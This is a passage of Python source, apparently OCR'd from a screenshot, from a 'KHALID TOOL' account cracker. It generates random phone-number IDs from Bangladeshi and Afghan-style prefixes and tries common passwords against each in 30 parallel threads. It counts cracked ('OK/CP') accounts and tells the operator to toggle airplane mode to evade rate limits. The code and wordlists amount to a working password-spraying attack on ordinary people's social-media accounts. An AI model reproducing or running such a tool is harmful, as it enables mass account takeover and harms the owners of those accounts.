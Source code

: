                                 ids = code+psx
                                passlist = [psx,ids,'khankhan','khan1122','khan12345','khan123','khan123456','khankhan123','baloch','afghan','afghan12345','afghan123','afghan1234','600700','afghanistan','afghan1122','500500','100200','10002000','900900','kabul123']
                                KHALID.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print('\033[0;97m[•]\x1b[1;92m THE PROCESS HAS COMPLETED ')
                print('\033[0;97m[•]\x1b[1;92m TOTAL OK/CP ACCOUNTS \x1b[1;91m:\x1b[1;92m '+str(len(oks))+'\033[1;37m/\033[1;31m'+str(len(cps)))
                linex()
                input('\033[0;97m[•]\x1b[1;92m PRESS ENTER TO BACK');clear()
                menu()                
#_________[ BD RANDOM CLONER ]______>> 
def bd():
                user=[]
                clear()
                print('    \x1b[1;92mKHALID TOOL BANGLADESH RANDOM  CLONER MENU')
                linex()
                print('\t\x1b[1;92mBANGLADESH  SIM CODE MENU')
                linex()
                print('\033[1;32m BANGLADESH SIM CODE EXAMPLE \x1b[1;91m: \x1b[1;96m016,017,018,019')
                linex()
                code = input('\033[0;97m[•] \033[1;32mPUT CODE \x1b[1;91m: \x1b[1;96m')
                clear()
                try:
                        limit = int(input('\t\x1b[1;92m        UIDS LIMIT MENU\n\033[1;97m====================================================\n\033[0;97m[•]\033[1;32m EXAMPLE \x1b[1;91m: \x1b[1;96m2000, 3000, 5000, 10000\n\033[1;97m====================================================\n\033[0;97m[•]\033[1;32m PUT LIMIT \x1b[1;91m: \x1b[1;96m'))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as KHALID:     
                        clear()
                        tl = str(len(user))
                        print('      \x1b[1;92mKHALID TOOL RANDOM BANGLADESH CRACKING MENU')
                        linex()
                        print('\033[0;97m[•] \x1b[1;92mTOTAL ACCOUNTS \x1b[1;91m: \033[1;36m'+tl)
                        print(f'\033[0;97m[•]\033[1;32m CHOICE CODE    \x1b[1;91m:\033[1;36m '+code)
                        print("\033[0;97m[•] \x1b[1;92mCLONING STARTED\033[1;91m: \033[1;96mTIME \033[1;97m[\033[1;96m"+str(a)+"\033[1;91m:\033[1;96m"+str(lt()[4])+" "+ tag+"\x1b[1;97m]")
                        print('\033[0;97m[•]\x1b[1;92m KHALID TOOL CRACKING HAS BEEN STARTED')
                        linex() 
                        print('\x1b[1;97m[•] \x1b[1;96mUSE FLIGHT [\x1b[38;5;205mAIRPLANE\033[1;37m] \x1b[1;96mMODE IN EVERY 5 MINUTES')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'Bangladesh','bangladesh','i love you','iloveyou','free fire','freefire']
                                KHALID.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print('\033[0;97m[•]\x1b[1;92m THE PROCESS HAS COMPLETED ')
                print('\033[0;97m[•]\x1b[1;92m TOTAL OK/CP ACCOUNTS \x1b[1;91m:\x1b[1;92m '+str(len(oks))+'\033[1;37m/\033[1;31m'+str(len(cps)))
                linex()
                input('\033[0;97m[•]\x1b[1;92m PRESS ENTER TO BACK');clear()
                menu() 
#_________[ METHOD 1 ]______>>  
def ffb(ids,names,passlist):
        global loop,oks,cps